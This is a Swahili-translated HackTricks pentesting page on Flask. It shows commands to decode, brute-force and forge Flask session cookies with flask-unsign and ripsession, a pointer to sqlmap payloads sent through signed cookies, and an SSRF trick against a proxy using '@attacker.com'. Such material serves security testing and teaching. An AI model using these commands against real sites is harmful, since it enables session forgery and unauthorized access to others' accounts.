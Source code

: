 # Flask

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Tumia [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) kujenga na **kutumia mifumo ya kazi** kwa kutumia zana za **jamii za juu zaidi** duniani.\
Pata Ufikiaji Leo:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

**Labda ikiwa unacheza CTF programu ya Flask itahusiana na** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**

## Vidakuzi

Jina la kikao cha kuki cha chaguo-msingi ni **`session`**.

### Mchawi

Dukizi ya mtandaoni ya Flask: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Mwongozo

Pata sehemu ya kwanza ya kuki hadi alama ya kwanza na ikibadilishe kwa Base64>
```bash
echo "ImhlbGxvIg" | base64 -d
```
Cookie pia inasainiwa kutumia nenosiri

### **Flask-Unsign**

Zana ya mstari wa amri kutafuta, kudecode, kufanya nguvu ya kutumia na kutengeneza vidakuzi vya kikao vya programu ya Flask kwa kudhani funguo za siri.

{% embed url="https://pypi.org/project/flask-unsign/" %}
```bash
pip3 install flask-unsign
```
#### **Tafsiri Cookie**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **Kuvunja Kwa Nguvu**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **Kusaini**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### Kusaini kwa kutumia toleo la zamani (legacy)
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

Chombo cha amri ya mstari wa amri kutumia nguvu kwenye tovuti kutumia vidakuzi vilivyoundwa na flask-unsign.

{% embed url="https://github.com/Tagvi/ripsession" %}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### SQLi katika kuki ya kikao cha Flask na SQLmap

[**Mfano huu**](../../pentesting-web/sql-injection/sqlmap/#eval) hutumia chaguo la `eval` la sqlmap kwa **kiotomatiki kusaini mizigo ya sqlmap** kwa flask kwa kutumia siri inayojulikana.

## Flask Proxy kwa SSRF

[**Katika andishi hili**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) imeelezewa jinsi Flask inavyoruhusu ombi linaloanza na herufi "@":
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Ni ipi katika hali ifuatayo:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
Inaweza kuruhusu kuingiza kitu kama "@attacker.com" ili kusababisha **SSRF**.

<figure><img src="../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Tumia [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) kujenga na **kutumia workflows** kwa urahisi zinazotumia zana za jamii za **juu zaidi** ulimwenguni.\
Pata Ufikiaji Leo:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
